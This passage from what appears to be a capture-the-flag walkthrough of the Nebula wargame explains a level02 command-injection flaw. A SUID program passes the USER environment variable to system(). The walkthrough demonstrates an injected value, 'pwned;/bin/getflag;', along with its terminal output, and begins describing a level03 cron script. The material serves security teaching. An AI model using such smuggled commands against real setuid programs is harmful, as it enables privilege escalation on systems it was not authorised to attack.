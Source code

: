 The vulnerability is based on the fact that *getenv* is called on the USER environment variable. Since this is a SUID program, it's dangerous to trust the contents of the environment. The manpage actually provides a more secure alternative:

> The secure_getenv() function is intended  for  use  in  general-purpose
> libraries  to  avoid vulnerabilities that could occur if set-user-ID or
> set-group-ID programs accidentally trusted the environment.

And we can exploit this by modifying the USER variable to make the program execute code of our choosing.

``` plain
level02@nebula:/home/flag02$ export USER='pwned;/bin/getflag;'
level02@nebula:/home/flag02$ echo $USER
pwned;/bin/getflag;
level02@nebula:/home/flag02$ ./flag02 
about to call system("/bin/echo pwned;/bin/getflag; is cool")
pwned
You have successfully executed getflag on a target account
sh: is: command not found
```

So why did this work? Remember this line:

``` c
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
```

Normally the USER would be level02, so it would look like this: <code>/bin/echo level02 is cool</code>. But we have control of what is returned by *getenv*. The injection was <code>pwned;/bin/getflag;</code>. So now it becomes this: <code>/bin/echo pwned;/bin/getflag; is cool</code>. The "pwned" is there just so that the *echo* command can print something. Then the **;** terminates the *echo* command and chains a new one, executing *getflag*. And the final **;** acts to comment out the rest of the string that was to be displayed (notice that bash treated the string as a command and reported that it couldn't find it).

### Level03

Check the home directory of flag03 and take note of the files there.

There is a crontab that is called every couple of minutes.

To do this level, log in as the level03 account with the password level03. Files for this level can be found in /home/flag03.

So we have a shell script and a directory:

``` plain
level03@nebula:/home/flag03$ ls
writable.d  writable.sh
level03@nebula:/home/flag03$ cat writable.sh 
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done

```
